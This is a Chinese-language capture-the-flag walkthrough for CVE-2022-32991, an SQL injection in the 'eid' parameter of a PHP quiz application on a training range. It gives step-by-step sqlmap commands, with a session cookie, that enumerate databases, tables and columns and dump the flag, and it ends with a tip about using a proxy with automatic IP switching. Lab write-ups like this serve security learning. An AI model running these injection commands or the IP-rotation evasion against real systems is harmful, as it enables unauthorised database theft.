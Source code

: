 ### 春秋云镜（CVE-2022-32991）靶场操作流程

1. #### 进入靶场并注册登录

   进入靶场后，能看到登录和注册按钮。

   ![image-20250425204004014](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204004014.png)

   点击注册按钮，填写用户名（如 123）、邮箱（如 123@123.com ）、密码、学院名称（如 123）后完成注册，接着进行登录操作。

   ![image-20250425204035334](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204035334.png)

   ![image-20250425204110884](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204110884.png)

2. #### 寻找注入点

   登录成功后，点击首页第一个 “Start” 按钮，此时首页出现 PHP 报错，可忽略。

   ![image-20250425204124799](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204124799.png)

   ![image-20250425204142257](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204142257.png)

   发现页面存在 GET 传参，尝试后确定参数 “eid” 存在注入点。例如访问：http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694%27&n=18t=34发现页面出现报错提示。

   ![image-20250425204200188](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204200188.png)

3. #### 使用 sqlmap 进行注入检测

   由于之前进行了登录操作，需获取 Cookie。

   ![image-20250425204217300](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204217300.png)

   使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid"检测参数 “eid” 是否存在注入。

   通过回显得知 “eid” 包含布尔注入、报错注入、时间盲注以及联合注入四种注入方式，且后端数据库管理系统为 MySQL。

   ![image-20250425204238880](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204238880.png)

4. #### 获取数据库、表、字段及内容

   **获取数据库**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" --dbs，成功获取四个数据库。
   
   ![image-20250425204253211](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204253211.png)
   
   **获取指定数据库中的表**：选择 “ctf” 数据库，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" --tables，获取到 “ctf” 数据库中的 “flag” 表等 9 张表。
   
   ![image-20250425204300983](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204300983.png)
   
   **获取指定表中的字段**：针对 “flag” 表，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" --columns，发现 “flag” 表中有一个名为 “flag” 的字段。
   
   ![image-20250425204308738](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204308738.png)
   
   **获取指定字段的内容**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" -C "flag" --dump，成功获得 “flag” 字段中的内容，即得到 flag。
   
   ![image-20250425204314719](D:\git.github\Chunqiu-Cloud-Mirror\CVE-2022-32991\jpg\image-20250425204314719.png)



##### 注意：

作者在攻击靶场的适合使用了代理，同时开启了IP自动切换。如果有人的sqlmap无法正常链接的时候可以参考作者的做法。